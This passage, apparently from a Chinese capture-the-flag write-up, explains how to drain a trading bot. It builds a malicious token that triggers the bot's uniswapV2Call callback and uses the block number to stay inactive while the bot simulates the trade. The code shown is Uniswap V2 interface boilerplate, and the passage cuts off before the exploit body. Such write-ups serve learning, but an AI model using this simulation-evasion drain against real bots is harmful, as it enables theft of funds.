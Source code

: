 图中大部分合约都不在我们的控制之下，但是有一个合约，最后的这个 token，是我们可能可以控制的。

假如构造一个 token，使得它会调用 `bot.uniswapV2Call`，进而转走余额，那么就能通过本题了。

最后，还需要想办法让这个逻辑在模拟时不会触发。经过测试，我发现模拟的时候，block number 还是上一个块的，可以利用这个特性来判断当前环境。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
    function symbol() external pure returns (string memory);
    function decimals() external pure returns (uint8);
    function totalSupply() external view returns (uint);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint);

    function approve(address spender, uint value) external returns (bool);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external pure returns (bytes32);
    function nonces(address owner) external view returns (uint);

    function permit(address owner, address spender, uint value, uint deadline, uint8 v, bytes32 r, bytes32 s) external;

    event Mint(address indexed sender, uint amount0, uint amount1);
    event Burn(address indexed sender, uint amount0, uint amount1, address indexed to);
    event Swap(
        address indexed sender,
        uint amount0In,
        uint amount1In,
        uint amount0Out,
        uint amount1Out,
        address indexed to
    );
    event Sync(uint112 reserve0, uint112 reserve1);

    function MINIMUM_LIQUIDITY() external pure returns (uint);
    function factory() external view returns (address);
```